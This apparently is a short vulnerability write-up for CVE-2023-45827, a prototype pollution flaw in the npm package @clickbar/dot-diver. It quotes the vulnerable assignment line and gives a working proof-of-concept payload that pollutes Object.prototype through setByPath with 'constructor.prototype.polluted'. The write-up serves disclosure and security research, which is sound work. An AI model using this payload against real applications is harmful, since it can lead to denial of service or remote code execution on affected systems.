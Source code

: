 # CVE-2023-45827



## 취약점 개요

- CVE-2023-45827

- CVSS : 9.8

- Nov 3, 2023

- ProtoType Pollution in node.js package

- rebob 프로젝트의 일환

## 취약점 설명

[github advisories](https://github.com/clickbar/dot-diver/security/advisories/GHSA-9w5f-mw3p-pj47)

This is a Prototype Pollution(PP) vulnerability in dot-diver. It can leads to RCE.


**vulnerable code**

```
//https://github.com/clickbar/dot-diver/tree/main/src/index.ts:277
//eslint-disable-next-line @typescript-eslint/no-unsafe-member-access
objectToSet[lastKey] = value
```
**poc**

```
import { getByPath, setByPath } from '@clickbar/dot-diver'

console.log({}.polluted); // undefined
setByPath({},'constructor.prototype.polluted', 'foo');
console.log({}.polluted); // foo
```

It is Prototype Pollution(PP) and it can leads to Dos, RCE, etc.


[target package](https://www.npmjs.com/package/@clickbar/dot-diver)